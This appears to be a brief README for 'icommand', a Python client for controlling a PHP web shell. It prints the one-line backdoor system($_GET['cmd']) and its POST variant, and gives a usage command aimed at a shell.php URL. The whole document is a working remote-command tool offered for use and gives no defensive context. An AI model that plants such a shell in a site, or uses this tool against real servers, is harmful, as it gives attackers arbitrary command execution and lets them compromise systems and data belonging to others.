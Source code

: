 ### icommand - command controller for PHP system function
- - -   
- icommand works for **POST** and **GET** requests:   

	<pre><code><?php 
		system($_GET['cmd']);
	?></pre></code>
> `<?php system($_POST['cmd']); ?>`

# Usage  
- Using icommand with GET request is pretty easy:  
> python icommand.py http://testserver.com/shell.php?cmd=  
